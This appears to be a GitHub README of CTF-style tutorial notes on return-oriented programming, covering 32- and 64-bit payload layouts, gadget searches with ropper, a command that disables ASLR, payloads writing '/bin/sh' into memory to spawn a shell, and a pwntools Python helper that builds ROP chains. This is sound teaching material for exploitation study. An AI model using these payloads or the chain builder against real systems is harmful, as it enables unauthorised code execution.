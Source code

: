 ROP B1n-3xp

***To Disable Address Space Layout Randomization***

```
echo "0" >  /proc/sys/kernel/randomize_va_space
```

- [x] Not Yet Completed#  Under Construction!!!! 
# **The Stack Difference Between 32 and 64 bit binary**

##  x86_32

```
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+----------+---------+------+------+
|  %eax   | %ebx | %ecx | %edx | %esi | %edi | %ebp |
+---------+------+------+------+------+------+------+
```


*The way to exploit a 32bit binary is like reading a letter from a friend that's sent through post :
• First you will see a from address i.e the address from where the letter started it's journey (system_address)
• Second you will see a to address i.e the address to where the letter ends its journey (return address)
• Finally you will be able to see the contents of the letter i.e which is the context of the letter (arguments for the system_address)*

**Thus, the 32bit version payload would be…**

~~~
PAYLOAD = offset_padding + system_addr + "4_byte_junk" + print_flag
~~~


## x86_64
```
+---------+-------+-------+------+------+------+------+
| syscall |  arg0 |  arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+-------+-------+------+------+------+------+
|   %rax  | %rdi  |  %rsi | %rdx | %r10 |  %r8 | %r9  |
+---------+-------+-------+------+------+------+------+
```



*The way to exploit a 64bit binary is like reading a letter which is empty on the outside:
• First ,you have to open the letter without damaging it to know what is inside (rop gadgets)
• Second, you will be able to see the contents of the letter i.e the context of the letter (arguments for the system_address)
• Finally after reading the letter you will be able to know who wrote the letter i.e the from address (system_address)*

**The 64bit version payload would be…**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PAYLOAD =  offset_padding + pop_rdi_gadget + print_flag + system_address
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


## **Writing in the Stack and executing  ROP (Return Oriented Programming) to pwn a binary**

◇ Find a place to write by checking for Writeable and Allocatable (WA) memory with enough space! 
~~~bash
readelf -S binary #[mem_address]
~~~
◇ Search for the appropriate mov gadget to inject the string into the stack by 
~~~bash
ropper --file binary --search "mov" #[mov_address]
~~~
◇ Search for the appropriate pop gadget to inject the string into the stack by 
~~~bash
ropper --file binary --search "pop" #[pop_address]
~~~

- ***Writing into the Stack in a 32bit binary***
	`For example if we are going to write the string “/bin/sh” into the stack. Given that we can only write 4 words at a time into the stack or else we may overwrite the other registers in the process.`
 
	- Writing “/bin” in the stack 
		- pop_address to clear the registers and then move to the mem_address and then write/overwrite it with “/bin” and then move back to EIP using mov_address , so that we can write the next part of string inside the memory
	~~~
	rop1 = pop_address + mem_address + “/bin” + mov_address
	~~~

	- Writing “//sh” or “/sh/x00”
		- pop_address to clear the registers and then move to the (mem_address+4)[The plus 4 is because the first 4 elements of the memory is already filled by rop1 ] and then write/overwrite it with “/sh” and then move back to EIP using mov_address , so that we can do a sys_call and call “/bin/sh”

	~~~
	rop2 = pop_address + (mem_address+4) + “/sh\x00” + mov_address
	~~~


- **Writing the Final Payload after writing “/bin/sh” into the stack**

~~~
PAYLOAD = offset_padding + rop1 + rop2 + system_address + *4_byte_junk* + mem_address
~~~
We can also use print function and flag_name.txt as argument to cat the flag... rather than getting a shell. If a print function is given in the binary

- ***Writing into the Stack in a 64bit binary***

	`I didnt wanna take the same example here as “/bin/sh” because it takes only 8bytes so we can complete the rop in a single line given that in 64bit we can write 8 words at a time into the stack as a threshold so to make it more interesting , i am writing the string “/bin/cat *.txt” into the stack.`
 
	- Writing “/bin/cat” in the stack 
		- pop_address to clear the registers and then move to the mem_address and then write/overwrite it with “/bin” and then move back to RIP using mov_address , so that we can write the next part of string inside the memory

	~~~
	rop1 = pop_address + mem_address + “/bin/cat” + mov_address
	~~~
	- Writing “ \*.txt” [Adding a space in the front as only “/bin/cat \*.txt” works and “/bin/cat \*.txt" doesnt]
		- pop_address to clear the registers and then move to the (mem_address+8)[The plus 8 is because the first 8 elements of the memory is already filled by rop1 ] and then write/overwrite it with “ \*.txt\x00\x00” and then move back to RIP using mov_address , so that we can do a sys_call and call “/bin/cat \*.txt”

	~~~
	rop2 = pop_address + (mem_address+8) + “ *.txt\x00\x00” + mov_address
	~~~

- Writing the Final Payload after writing “/bin/cat \*.txt” into the stack
`As it is a 64bit binary we need a pop_rdi gadget to pop RDI and create a fake stack to control the flow of execution, which can be selected from here `
~~~bash
ropper --file binary --search "pop rdi" #[pop_rdi]
~~~
~~~
PAYLOAD = offset_padding + rop1 + rop2 + pop_rdi + mem_address + sys_address
~~~


But I am too lazy to make a ROP chain and then append it with the PAYLOAD.....,So i automated the process to create the ropchain,not the finest program,But it WORKS!!! XD >_<

~~~python
from pwn import * #[pip2 install pwntools] because, I personally feel python2 is great for pwning binary

def ropper(mem_addr,pop_addr,mov_addr,sys_addr,string,arch = 32):
# Functionable for both 32 and 64 bit
#IMPORTANT : CHOOSE THE correct address for the rop chain to work
# Format of pop_addr,mov_addr and sys_addr - only packed as 32bit
# Format of mem_addr - as int or hex_int
# Format of string - only str
# Format of Arch - only int
	i = 0
	rop = ""
	if arch == 64:
		s = [string[j:j+8] for j in range(0,len(string),8)]
		for a in s:
			if len(a) % 8 != 0:
				a += "\x00"*(8 - len(a))
			rop += pop_addr + p64(mem_addr+i) + a + mov_addr
			i += 8
	else:
		s = [string[j:j+4] for j in range(0,len(string),4)]
		for a in s:
			if len(a) % 4 != 0:
				a += "\x00"*(4 - len(a))
			rop += pop_addr + p32(mem_addr+i) + a + mov_addr
			i += 4
	return rop

~~~
